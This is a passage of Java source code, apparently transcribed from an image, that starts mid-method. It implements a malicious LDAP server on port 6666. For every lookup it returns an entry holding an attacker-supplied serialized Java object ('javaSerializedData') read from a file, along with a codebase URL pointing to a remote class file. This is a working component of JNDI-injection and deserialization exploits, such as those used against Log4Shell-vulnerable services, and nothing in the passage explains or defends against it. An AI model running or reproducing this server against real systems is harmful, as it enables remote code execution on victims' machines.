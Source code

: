```java
        File file = new File(tmp_args[1]);
        try {
            payload = FileUtils.readFileToString(file);
            System.out.println(payload);
        } catch (IOException e) {
            e.printStackTrace();
        }

        int port = 6666;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ]), payload));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        private String payload;

        public OperationInterceptor ( URL cb , String payload) {
            this.codebase = cb;
            this.payload = payload;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e, payload);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult (InMemoryInterceptedSearchResult result, String base, Entry e , String payload) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData", Base64.decode(payload));
            result.sendSearchEntry(e);
```